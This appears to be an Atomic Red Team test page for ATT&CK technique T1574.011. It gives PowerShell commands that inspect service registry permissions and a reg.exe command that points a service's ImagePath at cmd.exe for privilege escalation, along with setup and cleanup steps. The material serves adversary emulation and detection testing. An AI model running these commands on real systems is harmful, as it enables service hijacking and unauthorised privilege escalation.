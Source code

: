 ```yaml
---
tags: [T1574_011, atomic_test]
filename: "[[T1574.011|T1574.011 - Hijack Execution Flow: Services Registry Permissions Weakness]]"
---
```

# T1574.011 - Hijack Execution Flow: Services Registry Permissions Weakness

## Atomic Test #1 - Service Registry Permissions Weakness
Service registry permissions weakness check and then which can lead to privilege escalation with ImagePath. eg.
reg add "HKLM\SYSTEM\CurrentControlSet\Services\#{weak_service_name}" /f /v ImagePath /d "C:\temp\AtomicRedteam.exe"

**Supported Platforms:** Windows


**auto_generated_guid:** f7536d63-7fd4-466f-89da-7e48d550752a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| weak_service_name | weak service check | string | weakservicename|


#### Attack Commands: Run with `powershell`! 


```powershell
get-acl REGISTRY::HKLM\SYSTEM\CurrentControlSet\Services\* |FL
get-acl REGISTRY::HKLM\SYSTEM\CurrentControlSet\Services\#{weak_service_name} |FL
```






<br/>
<br/>

## Atomic Test #2 - Service ImagePath Change with reg.exe
Change Service registry ImagePath of a bengin service to a malicious file

**Supported Platforms:** Windows


**auto_generated_guid:** f38e9eea-e1d7-4ba6-b716-584791963827





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| weak_service_name | weak service name | string | calcservice|
| weak_service_path | weak service path | string | %windir%&#92;system32&#92;win32calc.exe|
| malicious_service_path | malicious service path | string | %windir%&#92;system32&#92;cmd.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
reg.exe add "HKLM\SYSTEM\CurrentControlSet\Services\#{weak_service_name}" /f /v ImagePath /d "#{malicious_service_path}"
```

#### Cleanup Commands:
```cmd
sc.exe delete #{weak_service_name}
```



#### Dependencies:  Run with `powershell`!
##### Description: The service must exist (#{weak_service_name})
##### Check Prereq Commands:
```powershell
if (Get-Service #{weak_service_name}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
sc.exe create #{weak_service_name} binpath= "#{weak_service_path}"
```




<br/>
